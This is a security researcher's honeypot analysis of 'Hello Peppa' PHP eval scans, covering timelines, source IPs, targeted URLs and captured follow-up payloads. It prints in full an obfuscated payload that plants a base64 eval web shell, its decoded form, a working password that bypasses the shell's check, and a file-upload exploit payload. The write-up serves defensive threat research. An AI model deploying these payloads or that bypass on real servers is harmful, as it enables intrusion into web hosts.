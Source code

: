 ```yaml
---
layout: article
title: Hello Peppa
---
```


My colleague handler Guy Bruneau wrote a diary [1] about "Hello Peppa" scans previous
week. He encountered a large amount of scans in his honeypot, containing a payload
with the string "Hello Peppa". In our honeytrap network we are following these scans
for a while now, and collected additional information about these attacks.

As mentioned in the comments of the other diary, the string Peppa could be a
reference to Peppa Pig [2] and its removal from a Chinese video-sharing platform.

The first occurence of the "Hello Peppa" payload, has been on June 16th. They
are all targeting port 80 only and we've seen 34 different attacking ip
addresses. All attacks have the same useragent "Mozilla/5.0".

![Hello peppa](/assets/articles/hello-peppa/hello-peppa-1.gif)

Looking at the animated screenshot, there are three different clusters appearing
in time. The clusters indicate changes of approaches, where different payloads
are being used by different source ips.

During the internship of my colleagues Nordin van Nes, Thomas Oomens and Martijn
Janssen they implemented a LUA extension to Honeytrap, returning the expected
response "Hello, Peppa!999999999". This resulted in the follow-up attack
payloads:

```
m=eval($_POST["h"])&mx=eval($_POST["h"])&7788=eval($_POST["h"])&h=die(@file_put_contents("images.php",\'<?php $func=\\\'c\\\'.\\\'r\\\'.\\\'e\\\'.\\\'a\\\'.\\\'t\\\'.\\\'e\\\'.\\\'_\\\'.\\\'f\\\'.\\\'u\\\'.\\\'n\\\'.\\\'c\\\'.\\\'t\\\'.\\\'i\\\'.\\\'o\\\'.\\\'n\\\';$test=$func(\\\'$x\\\',\\\'e\\\'.\\\'v\\\'.\\\'a\\\'.\\\'l\\\'.\\\'(b\\\'.\\\'a\\\'.\\\'s\\\'.\\\'e\\\'.\\\'6\\\'.\\\'4\\\'.\\\'_\\\'.\\\'d\\\'.\\\'e\\\'.\\\'c\\\'.\\\'o\\\'.\\\'d\\\'.\\\'e($x));\\\');$test(\\\'QHNlc3Npb25fc3RhcnQoKTtpZihpc3NldCgkX1BPU1RbJ2NvZGUnXSkpeyhzdWJzdHIoc2hhMShtZDUoQCRfUE9TVFsnYSddKSksMzYpPT0nMjIyZicpJiYkX1NFU1NJT05bJ3RoZUNvZGUnXT10cmltKCRfUE9TVFsnY29kZSddKTt9aWYoaXNzZXQoJF9TRVNTSU9OWyd0aGVDb2RlJ10pKXtAZXZhbChiYXNlNjRfZGVjb2RlKCRfU0VTU0lPTlsndGhlQ29kZSddKSk7fQ==\\\'); ?>\',LOCK_EX) ? "success" : "failed");'
```

The follow-ups are using a different useragent: "Mozilla/5.0 (Windows NT 6.1;
Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" while targeting url:
"/sheep.php".

The payload will write a file "images.php" and eval the base64 encoded string,
decoded as:

```
@session_start();if(isset($_POST['code'])){(substr(sha1(md5(@$_POST['a'])),36)=='222f')&&$_SESSION['theCode']=trim($_POST['code']);}if(isset($_SESSION['theCode'])){@eval(base64_decode($_SESSION['theCode']));}
```

Interesting about this code is that is tries to protect its execution by the
value of the field a which is being hashed by both md5 and sha, but only the
last 4 characters are being verified. This is easy to circumvent and as an
example, the password w2xm73zrc09hpo5v works.

We've caught also another payload (unfortunately truncated by 1024 bytes):

```
--------------------------43552f5f8d94619e
Content-Disposition: form-data; name="_upl"

Upload
--------------------------43552f5f8d94619e
Content-Disposition: form-data; name="h"

if (copy($_FILES[fileupload][tmp_name],$_FILES[fileupload][name])) die("success");
--------------------------43552f5f8d94619e
Content-Disposition: form-data; name="w"

if (copy($_FILES[fileupload][tmp_name],$_FILES[fileupload][name])) die("success");
--------------------------43552f5f8d94619e\r\nContent-Disposition: form-data; name="leng"

if (copy($_FILES[fileupload][tmp_name],$_FILES[fileupload][name])) die("success");
--------------------------43552f5f8d94619e\r\nContent-Disposition: form-data; name="a"
if (copy($_FILES[fileupload][tmp_name],$_FILES[fileupload][name])) die("success");
--------------------------43552f5f8d94619e\r\nContent-Disposition: form-data; name="b"

if (copy($_FILES[fileupload][tmp_name],$_FILES[fileupload][name])) die("success");
--------------------------43552f5f8d94619e\r\nContent-Dispositio
```


This time using useragent "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36", while targeting url db_session.init.php. The payload is more some kind of brute forcing different exploit scripts, by sending different parameters with the same value, which will put the uploaded file somewhere it will be reachable.

Many of the attacks are originated from China, with the USA as second. The first attack we've seen has been from Chinese ip 119.28.44.140.

Till now, we've seen the following payloads, in first occurences order:

1. `[.+]=die('Hello, Peppa!')`
2. `[.+]==die((string)(111111111*9))`
3. `[.+]=die('Hello, Peppa!'.(string)(111111111*9))`
4. `[.+]=die('Hello, Peppa!'.(string)(123456789*9));`

![Hello peppa](/assets/articles/hello-peppa/hello-peppa-2.png)

The payload has been maturing, starting first with the "Hello Peppa" payload, then adding a small calculation to verify if the eval worked instead of just responding the same string. This could be to circumvent detection mechanisms or honeypots. What you see in the screenshot are 4 clusters, which are not related. This means that none of the source ips and payloads are common, as being a different attack.

Within our honeytrap network, we've seen the following urls being targeted:

* /
* /7788.php
* /8899.php
* /9678.php
* /ak47.php
* /conflg.php
* /db.init.php
* /db__.init.php
* /db_session.init.php
* /feixiang.php (Feixiang is a district of southern Hebei province, China)
* /lindex.php
* /mx.php
* /phpstudy.php
* /qq.php
* /s.php
* /sheep.php
* /w.php
* /wc.php
* /weixiao.php (Chinese League of Legends profession player for the team World Elite)
* /wshell.php
* /wuwu11.php
* /xiaoma.php
* /xshell.php
* /xw.php
* /xw1.php
* /xx.php

![Hello peppa](/assets/articles/hello-peppa/hello-peppa-3.gif)

Looking at the progress in time, you'll find out that the attacks are being extended with extra urls. Each cluster is the attack url and source ip, starting at just a few urls, and at the end all urls are being hit. So at time they are improving there attack and payloads, expanding on the amount of urls and testing other payloads.

Between the attacking servers there is a large amount running Windows with XAMPP installed. There are also different attacks being tried, like a PROPFIND exploit, phpmyadmin and the exploitation of previous attacks.

If you look at one attack specific, you'll see the following being tested:

{% include helloPeppaTable.html %}

References:
1. https://edition.cnn.com/2018/05/01/asia/china-peppa-pig-censorship-intl/index.html
2. https://isc.sans.edu/forums/diary/Hello+Peppa+PHP+Scans/23826/

Remco Verhoef (@remco_verhoef)
ISC Handler - Founder of DutchSec
PGP Key